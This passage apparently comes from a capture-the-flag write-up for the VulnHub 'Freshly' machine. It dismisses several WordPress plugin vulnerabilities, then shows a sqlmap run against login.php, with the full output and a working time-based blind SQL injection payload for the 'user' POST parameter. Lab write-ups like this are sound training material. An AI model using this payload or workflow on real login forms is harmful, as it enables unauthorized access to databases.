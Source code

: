 We got some nice results, three plug-in have security issues. Digging furtherer,
we notice that:

  * All in One SEO Pack  - Authentication Bypas: There was nothing in the metadata.
  * Cart66 Lite 1.5.3 - SQL Injection: Need to be authenticated
  * proplayer 4.7.9.1 - SQL Injection: Concerns a non available URL (you can run sqlmap on it to confirm this)

Therefore none of this will help us in this challenge.

# Exploit

Nikto shows us some interesting URL. The login interface at `login.php` may be
injectable.

## sqlmap

We need to use burp in order to save the POST request to a file, an then we
launch [sqlmap](http://sqlmap.org) on the `login.php` URL:

    :::text
    [maggick@rootine sqlmap]$ python2 sqlmap.py -r login_req -p user
             _
     ___ ___| |_____ ___ ___  {1.0-dev-dbfa8f1}
    |_ -| . | |     | .'| . |
    |___|_  |_|_|_|_|__,|  _|
          |_|           |_|   http://sqlmap.org

    [*] starting at 20:43:22

    [20:43:22] [INFO] parsing HTTP request from '/home/maggick/work/chall/vulnhub/Freshly/login_req'
    [20:43:22] [INFO] resuming back-end DBMS 'mysql'
    [20:43:22] [INFO] testing connection to the target URL
    [20:43:22] [INFO] heuristics detected web page charset 'ascii'
    sqlmap identified the following injection points with a total of 0 HTTP(s)
    requests:
    ---
    Parameter: user (POST)
        Type: AND/OR time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
        Payload: user=asdf' AND (SELECT * FROM (SELECT(SLEEP(5)))RaKL) AND 'KuPd'='KuPd&password=asdf&s=Submit
    ---
    [20:43:22] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Apache 2.4.7, PHP 5.5.9
    back-end DBMS: MySQL 5.0.12
    [20:43:22] [INFO] fetched data logged to text files under '/home/maggick/.sqlmap/output/10.0.2.5'

    [*] shutting down at 20:43:22
